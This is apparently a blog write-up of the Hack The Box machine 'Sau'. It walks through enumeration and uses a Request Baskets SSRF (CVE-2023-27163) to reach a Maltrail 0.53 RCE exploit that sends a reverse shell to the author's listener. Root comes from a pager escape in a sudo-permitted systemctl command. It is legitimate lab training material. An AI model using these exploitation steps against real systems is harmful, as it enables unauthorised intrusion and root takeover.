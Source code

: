 ```yaml
---
layout: post
title: Sau
date: 2023-10-16 10:14:00-0400
description: Sau - Hack The Box write-up
tags: easy-box HTB CTF RCE SSRF
categories: HTB-Machines
thumbnail: /assets/img/2023-sau/Sau.png
giscus_comments: false
related_posts: true
toc:
  beginning: true
featured: false
---
```


# Introduction

Sau is an Easy machine on Hack The Box that focuses on exploiting two vulnerabilities to ultimately obtain initial access. Privilege escalation is then achieved by exploiting a legitimate binary.

# Enumeration
Nmap reveals three ports:
- 22
- 80
- 55555

```shell
 nmap -sV -sC -T4 10.129.82.3 -oA nmap-sau
 
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 15 Oct 2023 04:01:09 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 15 Oct 2023 04:00:37 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 15 Oct 2023 04:00:38 GMT
|_    Content-Length: 0
<SNIP>
```

SSH is a dead end and port 80 is filtered, but browsing to `http://10.129.82.3:55555` lands on a site titled **Request Baskets**.

## What's Request Baskets?
Request Baskets is a concept, often implemented as a tool or a service, used to capture, inspect, and debug HTTP requests. It provides a temporary "basket" or "bucket" that captures incoming HTTP requests for analysis. This is particularly useful for debugging webhooks, HTTP clients, or other services that send HTTP requests.

An implementation usually works like this:

1. **Create** a new Request Basket, which provides a unique URL endpoint.
2. **Configure** the application, webhook, or service to send HTTP requests to the URL.
3. **Inspect** the incoming HTTP requests to the basket
4. Use the captured information,  to **test or debug issues**, validate payloads, or run other types of tests.

We can see that this particular implementation is on version 1.2.1, which is vulnerable to <a href="https://nvd.nist.gov/vuln/detail/CVE-2023-27163"> *CVE-2023–27163 - a Server-Side Request Forgery (SSRF)*</a>

## What's SSRF?
SSRF, or Server-Side Request Forgery, is a security vulnerability that allows an attacker to make requests to internal resources within an organization's network, effectively bypassing firewalls. In SSRF attacks, ***the attacker manipulates a vulnerable web application to make requests to an internal resource,*** which could be anything from cloud services to databases or even restricted parts of the web application itself.

The attack often occurs when a web application doesn't properly validate or sanitise user input for URLs. An attacker can then trick the server into making an unauthorised request to internal resources, potentially revealing sensitive information or even executing commands.

It's particularly concerning in cloud environments, where metadata APIs can expose sensitive data that can lead to more severe attacks like privilege escalation.

Prevention often involves input validation, restricting outbound requests from the server, or implementing allow lists for permissible URLs.

# Attack vector
Given port 80 is filtered but  there is an implementation of Request Baskets on port 55555 that is vulnerable to SSRF, this appears to provide a way to forward requests to the service running on port 80. A PoC of the SSRF vulnerability on Request-Baskets can be found [here](https://github.com/entr0pie/CVE-2023-27163).

## Testing
Creating a new basket in the web app and then configuring port 80 as the forward URL on a local interface can confirm this.

Hovering over the `Proxy Response` option, we can see it will *Proxy the response from the forward url back to the client*.

Checking this option will return the response from `http://localhost:80`.

<img src="/assets/img/2023-sau/20231016-sau-2.png" class="auto-resize">

Triggering a request by browsing to `http://10.129.82.3:55555/wnnyr21` returns a seemingly malformed web app called **Maltrail**.
<img src="/assets/img/2023-sau/20231016-sau-5.png" class="auto-resize">

The app is running version 0.53 which is vulnerable to a **Remote Code Execution.**

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit maltrail
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
Maltrail v0.53 - Unauthenticated Remote Code Executi | python/webapps/51676.py
```

# Initial access
Using the first exploit, a basket can be created that, when accessed, will make a request to `http://localhost:80`, as tested manually.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ ./CVE-2023-27163.sh http://10.129.82.3:55555/ http://localhost:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "ndapra" proxy basket...
> Basket created!
> Accessing http://10.129.82.3:55555/ndapra now makes the server request to http://localhost:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"uQW06XHLrVKiZsq2XbeXRbrb6PRlQ53tTAVeaA-Puolb"}
```

This basket can then be used to proxy the second exploit to the vulnerable implementation of Maltrail.

```shell
┌──(kali㉿kali)-[~/Documents/HTB-Machines/sau/exploits]
└─$ python3 51676.py 10.10.14.12 4321  http://10.129.82.3:55555/ndapra
Running exploit on http://10.129.82.3:55555/ndapra/login
```

The payload is executed on the Maltrail instance running on port 80, and a reverse shell is sucessfully caught on the listener.

<img src="/assets/img/2023-sau/20231016-sau-3.png" class="auto-resize">

# Privilege escalation
Privilege escalation is reasonably straight forward.

Checking what the user can run as sudo returns one binary: 
`/usr/bin/systemctl status trail.service`

```shell
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

[GTFOBIns](https://gtfobins.github.io/gtfobins/systemctl/) says the following about `systemctl` ran as sudo:

> *If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.*


Running the binary seems to drop into a new terminal session:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
```

Attempting to execute a new shell from this terminal will spawn it under sudo:
```shell
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
!//bbiinn//sshh!/bin/sh
# whoami
whoami
root
```

<img src="/assets/img/2023-sau/20231016-sau-4.png" class="auto-resize">


Done and dusted!